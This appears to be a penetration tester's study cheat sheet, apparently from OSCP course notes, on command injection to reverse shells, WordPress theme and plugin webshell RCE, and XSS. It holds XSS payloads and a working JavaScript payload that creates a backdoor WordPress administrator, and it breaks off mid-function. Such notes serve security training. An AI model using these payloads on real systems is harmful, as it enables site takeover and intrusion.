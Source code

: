 # ***Command Injection***
***ATTACK***
1. **If** see a box like below, test for command injection using chaining [PayloadAllTheThings-ChainingCommands](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Command%20Injection/README.md#chaining-commands)
2. **URL-ENCODE** all payloads and use below to obtain a reverse-shell:
	1. If **Windows,** [[Misc/Shells#windows-snippet-code-exec-environ]], to test code execution environment and then try [[Misc/Shells#conpty]] as payload. If fail, try [[Misc/Shells#powercat]]
	2. If **Linux,** try **nc** or [[Misc/Shells#bash-reverse]]

# ***Wordpress***
## *themes rce*
1. **Appearance → Theme Editor → 404.php (or archive.php)**
2. **PASTE** in *webshell* first, and then use it for reverse shell

## *plugins rce*

3. ***Plugins → Add New → upload ZIP (webshell) → Install Now*
4. ***Have** the nc listener ready!*
5. *Activate the plugin*


# ***XSS (Client-Side)***

1. ***Test input** fields that accept unsanitized input i.e search bars etc, using the below payloads. More at [PayloadAllTheThings-XssPayloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) If Wordpress, wpscan may pick it up.*
```html
<script>alert('AYO XSS!')</script>
<img src=1 onerror=alert(1)>
```

2. ***Attempt adding** admin user. Using [7.4.5](https://portal.offsec.com/courses/pen-200-44065/learning/introduction-to-web-application-attacks-44516/cross-site-scripting-44558/privilege-escalation-via-xss-44525) again as an example, we used the vulnerable Visitors plugin and the User-Agent field to inject such XSS payload. We first got a nonce and then added the backdoor admin user:*
```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
3. ***Minify** the above using [JS compress](https://jscompress.com)*
4. ***Encode** in console*
	 ***REPLACE:***
	 1. *insert_minified_javascript*
```
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
```